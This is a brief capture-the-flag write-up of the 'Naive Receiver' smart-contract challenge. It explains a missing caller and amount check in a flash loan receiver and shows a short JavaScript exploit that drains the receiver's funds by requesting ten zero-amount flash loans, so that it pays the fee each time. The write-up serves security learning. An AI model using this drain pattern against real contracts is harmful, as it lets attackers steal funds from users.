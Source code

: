 # Naive Receiver

## Problem

A flash loan receiver does not perform sanity checks on the `receiveEther` routine. Ideally it should check that this routine is only called by the owner of the contract and that the loan amount is at least equal to the fee amount or not 0 so as not to waste fees.

## Exploit

```js
// naive-receiver.challenge.js
...
this.pool.connect(attacker);
for (let i = 0; i < 10; i++){
    await this.pool.flashLoan(this.receiver.address, ethers.utils.parseEther('0'));
}
...
```

## Explanation

```
Objective:
1. Drain the FlashLoanReceiver.sol contract
  a. If pool address can be changed
    a.1 pool address can only be chained if the contract is redeployed
  b. pay the fees 10 times
    b.1 no validation on the loan amount and caller of the flashLoan
  c. change the loan amount
    c.1 validation checks on the pool routine make this not possible since only the pool can call the receiveEther function
```